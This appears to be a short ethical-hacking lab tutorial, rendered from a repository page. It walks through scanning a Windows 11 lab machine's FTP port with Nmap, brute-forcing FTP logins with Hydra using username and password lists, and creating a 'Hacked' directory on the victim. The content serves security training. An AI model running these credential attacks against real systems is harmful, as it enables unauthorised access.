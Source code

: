 #### Crack FTP Credentials using a Dictionary Attack

- Here, we can perform a dictionary attack to crack FTP credentials on the target machine. This involves finding the open FTP port using Nmap and then using the THC Hydra tool to execute the dictionary attack.

- Nmap Scan:
   - Open a terminal window and run an Nmap scan to check if FTP port 21 is open.
     ```bash
     sudo su
     nmap -p 21 [IP Address of Windows 11]
     ```

- Verify FTP Server:
   - Check if an FTP server is hosted.
     ```bash
     ftp [IP Address of Windows 11]
     ```
   - Confirm the need for credentials, indicating an FTP server presence.

- Run the Hydra tool for the dictionary attack.
     ```bash
     hydra -L Usernames.txt -P Passwords.txt ftp://[IP Address of Victim]
     ```

- Hydra will output cracked usernames and passwords.
   - Attempt to log in to the FTP server using the obtained credentials.

- Remote FTP Access:
    - Upon successful logon remotely create a directory named "Hacked" on the Victim machine.
      ```bash
      mkdir Hacked
      ```

- If you want to verify, switch to the victim machine and navigate to C:\FTP (if it's windows) to view the "Hacked" directory.

---